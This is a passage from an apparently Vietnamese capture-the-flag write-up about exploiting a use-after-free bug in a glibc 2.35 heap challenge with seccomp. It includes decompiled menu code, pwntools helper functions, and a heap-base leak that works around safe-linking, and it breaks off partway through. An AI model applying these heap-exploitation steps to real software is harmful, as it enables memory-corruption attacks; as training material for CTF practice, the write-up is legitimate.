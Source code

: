 - option2 : send

nhập 1 idx và free chunk[idx]

```cs
   if ( choice != 2 )
        break;
      v7 = inidx();
      free(*((void **)&mem + v7));
```

- option3 : read

ta sẽ được đọc dữ liệu tại chunk 

```cs
 if ( choice != 3 )
        break;
      v7 = inidx();
      puts(*((const char **)&mem + v7));
```

### EXPLOIT

- ta sẽ có bug ```UAF``` ở option 3 , libc version được sử dụng ở bài này là ```2.35``` đây là 1 phiên bản không còn sử dung ```hook``` được nữa , cùng với setup ```seccomp``` khiến ta chỉ có thể ```orw``` để đọc flag 

- trước hết ta sẽ setup 1 số hàm để giúp khai thác rõ ràng hơn: 

```cs
def malloc(idx,size,data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter((b'idx: ',f'{idx}'.encode()))
    p.sendlineafter(b'size: ',f'{size}'.encode())
    p.sendlineafter(b'content: ',data)

def free(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'idx: ',f'{idx}'.encode())
def view(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'idx: ',f'{idx}'.encode())
```

- trước hết ta sẽ cần leak libc và heap_address , leak ```heap``` vì 2.35 sử dụng ```safe_linking``` :

```cs
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```

- vì bug ```uaf``` và hàm read cũng không check gì nên ta có thể leak libc và heap dễ dàng như sau: 

```cs
for i in range(7): malloc(i,0x100,b'')

free(0)
view(0)

heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000 - 0x2000
log.info(f'heap_base: {hex(heap_base)}')
```
- tuy nhiên trong bins lúc này khá lộn xộn , ```tcache``` là 1 mảng dslk lưu trữ các chunk được giải phóng trên cơ sở mỗi luồng , các dslk dược lập chỉ mục theo thứ tự theo các chunk từ 16-1032 byte . tuy nhiên seccomp đã phân bổ và giải phóng rất nhiều bộ nhớ trước đó nên nó xảy ra sự lộn xộn này 
